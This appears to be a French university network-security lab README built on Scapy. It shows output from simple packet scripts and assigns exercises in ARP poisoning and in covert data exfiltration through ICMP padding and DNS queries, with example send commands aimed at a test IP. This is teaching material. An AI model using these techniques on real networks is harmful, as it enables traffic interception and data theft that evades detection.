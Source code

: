 # TP4 SECU : Exfiltration

# Sommaire

- [Sommaire](#sommaire)
- [I. Getting started Scapy](#i-getting-started-scapy)
- [II. ARP Poisoning](#ii-arp-poisoning)
- [II. Exfiltration ICMP](#ii-exfiltration-icmp)
- [III. Exfiltration DNS](#iii-exfiltration-dns)


# I. Getting started Scapy

🌞 **`ping.py`**

> le `ping` est bloqué vers la passerelle.

```bash
stan@Stanislass-MacBook-Pro-2 tp4-secu-2024 % python3 ping.py
Begin emission

Finished sending 1 packets
...*
Received 4 packets, got 1 answers, remaining 0 packets
Pong reçu : QueryAnswer(query=<Ether  dst=c8:5e:a9:3e:3e:fb src=f2:39:c5:c0:07:e5 type=IPv4 |<IP  frag=0 proto=icmp src=10.33.67.174 dst=10.33.73.226 |<ICMP  type=echo-request |>>>, answer=<Ether  dst=f2:39:c5:c0:07:e5 src=c8:5e:a9:3e:3e:fb type=IPv4 |<IP  version=4 ihl=5 tos=0x0 len=28 id=47053 flags= frag=0 ttl=64 proto=icmp chksum=0x2142 src=10.33.73.226 dst=10.33.67.174 |<ICMP  type=echo-reply code=0 chksum=0x0 id=0x0 seq=0x0 unused=b'' |>>>)
```

🌞 **`tcp_cap.py`**

```bash
stan@Stanislass-MacBook-Pro-2 tp4-secu-2024 % python3 tcp_cap.py 
TCP SYN ACK reçu !
- Adresse IP src : 34.120.22.49
- Adresse IP dest : 10.33.67.174
- Port TCP src : 443
- Port TCP dst : 59881
```

🌞 **`dns_cap.py`**

```bash
stan@Stanislass-MacBook-Pro-2 tp4-secu-2024 % python3 dns_cap.py
DNS Ans : 104.26.10.233
WARNING: Socket <scapy.arch.bpf.supersocket.L2bpfListenSocket object at 0x107a501d0> failed with 'Layer [1] not found'. It was closed.
```

🌞 **`dns_lookup.py`**

```bash
stan@Stanislass-MacBook-Pro-2 tp4-secu-2024 % python3 dns_loockup.py 
DNS Ans 172.67.74.226
```

# II. ARP Poisoning


🌞 **`arp_poisoning.py`**

- craftez une trame ARP qui empoisonne la table d'un voisin
  - je veux que, pour la victime, l'adresse IP `10.13.33.37` corresponde à la MAC `de:ad:be:ef:ca:fe`
- **testez avec des VMs uniquement, ou entre vous uniquement**
- prouvez avec une commande sur la machine victime que la fausse donnée a été injectée
- vous n'avez le droit qu'aux fonctions `srp()`, `sr()`, `send()`, `sendp()`

# II. Exfiltration ICMP

➜ **Ici, on va se servir de notre ami le ping pour exfiltrer des données.**

Si vous n'aviez pas noté jusqu'alors en faisant joujou à la partie I, chaque paquet ICMP (ping et pong) contiennent une section appelée "padding" de taille variable, généralement remplie de 0. C'est là, on envoie plein de 0 sur le réseau, kom sa, à chaque ping.

**C'est l'endroit idéal pour stocker des données meow.**

P'tit schéma d'un paquet ICMP [~~volé sur internet ici~~](https://www.freesoft.org/CIE/Course/Section3/7.htm) :

![Kikoo toa](./img/padding.png)

**On va littéralement envoyer des pings, mais le padding on va l'utiliser pour stocker des données.** Autrement dit, on va utiliser des pings pour envoyer de la data à quelqu'un.

Dans notre contexte : pour exfiltrer des données, on peut juste envoyer des ping enfet !

🌞 **`icmp_exf_send.py`**

- envoie un caractère passé en argument dans un ping
  - un seul caractère pour le moment
- l'IP destination est aussi passée en argument
- on doit pouvoir faire par exemple :

```bash
# envoie le caractère "j" caché dans un ping vers 10.1.1.1
$ python icmp_exfiltration_send_1.py 10.1.1.1 j
```

On peut récup les arguments passés au script comme ça :

```python
# La liste argv contient tous les arguments dans l'ordre
from sys import argv

print(f"Ceci est le premier argument : {argv[0]}.")
print(f"Ceci est le deuxième argument : {argv[1]}.")
```

🌞 **`icmp_exf_receive.py`**

- sniff le réseau
- affiche **UNIQUEMENT** le caractère caché si un paquet ICMP d'exfiltration est reçu et quitte après réception de 1 paquet
- si un ping legit est reçu, ou n'importe quoi d'autre votre code doit continuer à tourner
- il attend (avec un filtre sur `sniff()` et des conditions dans la fonction qui traite le paquet) **uniquement** le ping qui contient les données exfiltrées, et les affiche

> Mettez vous dans un setup à deux PCs, ou avec une VM, truc du genre.

⭐ **Bonus 1 easy :**

- **`icmp_exf_send_b1.py`** et **`icmp_exf_receive_b1.py`**
- parce que là, bon envoyer "j" ça sert à rien
- faites en sorte que ça fonctionne peu importe la longueur de la string passée en argument du script `icmp_exf_send_b1.py`
  - bah oui le padding il a une taille limitée...
  - quelle taille ? [See une bonne doc](https://www.freesoft.org/CIE/Course/Section3/7.htm)
  - il va falloir donc couper la string en plusieurs morceaux, et envoyer plusieurs pings !
- le programme qui reçoit `icmp_exf_receive_b1.py` doit reconstruire le message à partir de tous les pings qu'il reçoit
  - **il affiche toujours uniquement la string cachée**, rien d'autre
- on doit donc pouvoir faire des trucs comme :

```bash
# envoie une string cachée dans un ping vers 10.1.1.1
$ python icmp_exf_send_nolimit.py 10.1.1.1 "Coucou toi comment ça va broooooo"
```

⭐ **Bonus 2 hard : `icmp_exf_send_anything.py`**

- **`icmp_exf_send_b2.py`** et **`icmp_exf_receive_b2.py`**
- envoyez un fichier avec des ping
- faites simple pour les tests : créez un fichier de quelque Ko tout au plus (peu importe le format justement, on s'en fout)
- genre une fois que ça marche, on doit pouvoir envoyer des JPEG avec des ping
- c'est la même idée que la string : fragmenter le JPEG en p'tits morceaux, envoyer, reconstituer de l'autre côté

# III. Exfiltration DNS

**DNS est donc un protocole qu'on peut aussi détourner de son utilisation première pour faire de l'exfiltration.**

Vu qu'on va envoyer des requêtes DNS pour exfiltrer les données il faut dans l'idéal un service qui tourne pour les recevoir (port 53 UDP), et sur cette machine qui fait tourner le service, un ptit programme `scapy` qui réceptionne et traite tout ce qui est reçu. Les logs du service ça peut faire l'affaire aussi !

> Bon ! Vous vous me la faites tout seul celle-ci ? Quelques recherches sur internet, y'a toute la doc du monde sur ça.

🌞 **`dns_exfiltration_send.py`**

- envoie des données passées en argument à l'IP passée en argument
- utilise le protocole DNS pour exfiltrer lesdites données
- une string de 20 caractères doit pouvoir être exfiltrée

On doit pouvoir faire :

```bash
$ dns_exfiltration_send.py 10.1.1.1 toto
```

⭐ **Bonus 3 mid : `dns_exfiltration_send.py`**

- en dernier bonus : mettez en place le code qui reçoit votre exfiltration DNS
- il n'affiche que les strings cachées dans les requêtes reçues

![DNS exfiltration](./img/dns_exf.jpg)